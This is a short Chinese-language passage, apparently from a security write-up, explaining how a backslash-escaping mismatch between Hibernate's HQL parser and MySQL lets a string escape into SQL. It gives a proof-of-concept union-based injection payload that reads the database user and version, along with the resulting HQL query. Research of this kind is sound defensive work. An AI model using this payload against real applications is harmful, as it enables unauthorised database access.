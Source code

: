 ![image-20250312161737357](resource/Hibernate-HQL注入.assets/image-20250312161737357.png)

此处就导致了一个差异，mysql是识别转译字符的，所以爆了语法错误

然后利用这个差异，构造一个HQL以为是字符串，但转为mysql变成语句的POC即可

```
test\&#39;&#39;and 1=2 union select 1,user(),version()#
```

拼接HQL语句，此时HQL引擎会将其视为一整个字符串，所以引擎不去解析

```
from User where name = &#39;test\&#39;&#39;and 1=2 union select 1,user(),version()#&#39;
```

最后转为SQL语句，逃逸成功执行union语句

![image-20250312161953637](resource/Hibernate-HQL注入.assets/image-20250312161953637.png)
